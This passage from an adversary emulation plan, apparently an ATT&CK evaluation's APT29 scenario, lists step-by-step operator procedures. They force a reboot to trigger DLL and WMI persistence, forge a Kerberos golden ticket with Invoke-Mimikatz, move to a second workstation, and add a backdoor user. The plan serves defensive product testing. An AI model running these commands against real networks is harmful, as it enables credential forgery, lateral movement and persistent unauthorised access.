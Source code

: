 ### Procedures

#### 20.A - Persistence Execution ([T1085](https://attack.mitre.org/versions/v6/techniques/T1085/) / [T1218.011](https://attack.mitre.org/techniques/T1218/011/), [T1084](https://attack.mitre.org/versions/v6/techniques/T1084/) / [T1546.003](https://attack.mitre.org/techniques/T1546/003/))

1. Execute `restart-computer -force`
2. Existing 2 callbacks should die
3. RDP and login to initial victim once it reboots
4. Persistence mechanisms should fire on login (1 for DLL, 1 or more for WMI event subscription)

**Note:** You may need to repeat login process a few times (close and reopen RDP session) for WMI execute to fire

#### 20.B - Use Alternate Authentication Material: Pass the Ticket ([T1097](https://attack.mitre.org/versions/v6/techniques/T1097/) / [T1550.001](https://attack.mitre.org/techniques/T1550/001/), [T1550.003](https://attack.mitre.org/techniques/T1550/003/))

1. Interact with the SYSTEM PS callback (from WMI)
2. Execute `klist purge`
3. Load `Invoke-Mimikatz.ps1` (available at https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
4. Execute `invoke-mimikatz -command '"kerberos::golden /domain:dmevals.local /sid:[SID] /rc4:[NTLM HASH] /user:mscott /ptt"'` using the SID and NTLM values from earlier
5. Execute `klist` and confirm ticket is in cache
6. Execute `Enter-PSSession [hostname of second workstation in domain]`
7. Execute `Invoke-Command -ComputerName [hostname of second workstation in domain] -ScriptBlock {net user /add toby "pamBeesly<3"}`

### Cited Intelligence

* Open Invitation Contributors: Microsoft, SentinelOne

* APT29 have used Kerberos ticket attacks for lateral movement and has created accounts to log in.<sup> [5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016),[7](https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html) </sup>

---

## Acknowledgements

### Special thanks to the following public resources:

* Atomic Red Team (<https://github.com/redcanaryco/atomic-red-team>)
* Mimikatz (<https://github.com/gentilkiwi/mimikatz>)
* Pinvoke (<http://www.pinvoke.net>)
* PoshC2 (<https://github.com/nettitude/PoshC2>)
* POSHSPY (<https://github.com/matthewdunwoody/POSHSPY>)
* PowerSploit (<https://github.com/PowerShellMafia/PowerSploit>)
* PSReflect-Functions (<https://github.com/jaredcatkinson/PSReflect-Functions>)
* State of the Hack S2E01: #NoEasyBreach REVISITED (<https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html>)
* Use PowerShell to Interact with the Windows API (<https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1>)
* Yet another sdclt UAC bypass (<http://blog.sevagas.com/?Yet-another-sdclt-UAC-bypass>)

---